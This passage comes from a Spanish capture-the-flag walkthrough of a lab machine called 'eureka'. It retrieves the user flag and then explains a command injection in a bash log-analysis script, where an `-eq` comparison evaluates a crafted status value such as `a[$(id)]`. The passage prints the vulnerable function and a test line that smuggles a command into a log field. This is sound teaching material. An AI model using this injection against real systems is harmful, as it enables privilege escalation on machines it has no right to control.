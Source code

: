 Ya podremos ver la flag del usuario sin privilegios

~~~ bash
miranda-wise@eureka:~$ export TERM=xterm # Limpiar la pantalla con Ctrl + L
miranda-wise@eureka:~$ cat user.txt 
dab...
~~~
<br>


# Escalada de Privilegios
---
## Command Injection - Bash `eq` Comparison

Recordemos y analicemos el script de `bash` que habíamos encontrado en la primer enumeración bajo la ruta `/opt`.

El script `log_analyse.sh` contiene la siguiente función que utiliza una condición `if` empleando `-eq`

~~~ bash
analyze_http_statuses() {
    # Process HTTP status codes
    while IFS= read -r line; do
        code=$(echo "$line" | grep -oP 'Status: \K.*')
        found=0
        # Check if code exists in STATUS_CODES array
        for i in "${!STATUS_CODES[@]}"; do
            existing_entry="${STATUS_CODES[$i]}"
            existing_code=$(echo "$existing_entry" | cut -d':' -f1)
            existing_count=$(echo "$existing_entry" | cut -d':' -f2)
            if [[ "$existing_code" -eq "$code" ]]; then
                new_count=$((existing_count + 1))
                STATUS_CODES[$i]="${existing_code}:${new_count}"
                break
            fi
        done
    done < <(grep "HTTP.*Status: " "$LOG_FILE")
}
~~~

El problema surge cuando `if [[ "$existing_code" -eq "$code" ]]` hace la comparación con la variable `$code`, donde es posible ejecutar comandos dentro de esta expresión:

- `-eq` compara dos enteros, esperando expresiones aritméticas
- En este contexto, si `$code` tiene un valor como `x[$(id)]`, se interpreta como una expresión aritmética válida, donde finalmente se ejecuta el comando contenido dentro de `$()`

Sabiendo esto, si hacemos una pequeña prueba con el siguiente comando, comprobaremos que se ejecuta `id` si intentamos simular el comportamiento del script, donde se envía el contenido que espera pero en vez de un código de estado enviamos la expresión maliciosa

~~~ bash
miranda-wise@eureka:~$ echo "HTTP Status: a[$(id)]" | grep -oP 'Status: \K.*'
[uid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)]
~~~
